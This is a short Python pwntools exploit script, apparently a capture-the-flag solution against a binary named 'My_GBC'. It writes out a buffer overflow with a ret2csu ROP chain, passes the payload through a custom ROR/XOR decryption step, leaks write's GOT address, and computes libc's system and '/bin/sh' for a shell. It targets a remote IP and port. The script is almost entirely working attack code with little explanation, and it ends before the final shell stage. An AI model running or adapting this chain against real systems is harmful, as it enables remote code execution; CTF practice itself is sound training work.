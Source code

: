 ```python
from pwn import *

def ror1(byte, count):
    return ((byte >> count) | (byte << (8 - count))) & 0xFF

def decrypt(data, key, length):
    decrypted_data = bytearray()
    for i in range(length):
        byte = data[i]
        byte = ror1(byte, 3)  # 右循环移位3位
        byte ^= key  # 异或操作
        decrypted_data.append(byte)
    return decrypted_data

context.log_level = 'debug'
local = True
elf = ELF('./My_GBC')
libc = ELF('./libc.so.6')
if local:
    p = process('./My_GBC')
    pwnlib.gdb.attach(p, 'b *main')
else:
    p = remote('39.106.48.123', 32325)
key = 0x5a

ret = 0x40101a
rdi = 0x4013b3
rsi = 0x4013b1

csu_1 = 0x4013Aa
csu_2 = 0x401390

write_plt = 0x401060
leak_got = elf.got['write']
main = elf.symbols['main']

'''payload = b'a' * 0x18
payload += p64(rdi) + p64(1)
payload += p64(rsi) + p64(leak_got) + p64(8)
payload += p64(write_plt) + p64(main)'''
payload = b'a' * 0x18
payload += p64(csu_1)
payload += p64(0) + p64(1)
# r12 r13 r14 r15 -> rdi rsi rdx call
payload += p64(1) + p64(leak_got) + p64(8) + p64(leak_got)
payload += p64(csu_2) + b'a' * 0x38
payload += p64(main)

payload = decrypt(payload, key, len(payload))

# Send the payload
p.sendline(payload)
  
p.recvuntil(b'Encrypted: ')
p.recvuntil(b'\n')
leaked_address = u64(p.recv(8))
print(f'Leaked address: {hex(leaked_address)}')

base = leaked_address - libc.symbols['write']
print(f'Libc base: {hex(base)}')
system = base + libc.symbols['system']
bin_sh = base + next(libc.search(b'/bin/sh'))

```